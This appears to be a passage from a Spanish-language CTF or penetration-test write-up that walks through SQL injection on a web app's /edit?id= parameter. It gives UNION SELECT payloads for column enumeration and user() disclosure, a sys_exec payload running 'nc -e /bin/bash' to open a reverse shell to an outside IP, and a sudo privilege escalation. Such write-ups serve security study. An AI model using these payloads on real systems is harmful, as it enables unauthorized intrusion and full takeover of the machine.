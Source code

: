En `/edit` al pasarle el id del elemento se pudieron visualizar sus valores. Ejemplo `https://localhost.echocity-f.com/edit?id=2`.

![Contenido de elemento 2](images/exploit_5.png)

Después al probar con `'` después del id `https://localhost.echocity-f.com/edit?id=2'` se identificó una excepción de SQL dándo paso a la siguiente fase de explotación.

![Excepción SQL](images/exploit_6.png)

### SQLi

Al requerir de una validación visual de inyección dado el escenario se realizo manualmente todo el proceso de inyección, buscando en primera instancia identificar el número de columnas en la tabla, mediante:

```text
id=2' UNION SELECT 1,2,3,4,5-- -
```

Iterando de 1 a N hasta no obtener errores en la respuesta. Posteriormente, se buscó identificar cuál de las columnas permite desplegar cadenas de carácteres, identificando la segunda y tercera posición con (añadiendo un ordenamiento para ver el contenido en los inputs disponibles):

```text
id=2' UNION SELECT 1,'a','a',4,5 ORDER BY url ASC-- -
```

![Identificación de columnas de cadenas de carácteres](images/exploit_7.png)

Podiendo visualizar la información se buscó identificar que usuario de base de datos estaba siendo usado para tratar de asumir con qué permisos se contaba. Usando:

```text
id=2' UNION SELECT 1,user(),'a',4,5 ORDER BY url ASC-- -
```

![Usuario de base de datos](images/exploit_8.png)

Al identificar al usuario `root` se buscó ejecutar directamente una reverse shell con:

```text
id=2' UNION SELECT 1,sys_exec('nc -e /bin/bash 10.10.0.50 1234'),'a',4,5-- -
```

Obteniendo así, acceso a la máquina.

![Acceso a máquina](images/exploit_9.png)

## Post Explotación

### Escalación de privilegios

#### mysql &rarr; root

Al ejecutar `sudo -l` se puede visualizar que el usuario no tiene restricción alguna para ejecutar binarios con `sudo`, por lo que al ejecutar `sudo bash`, se obtiene acceso como `root`.
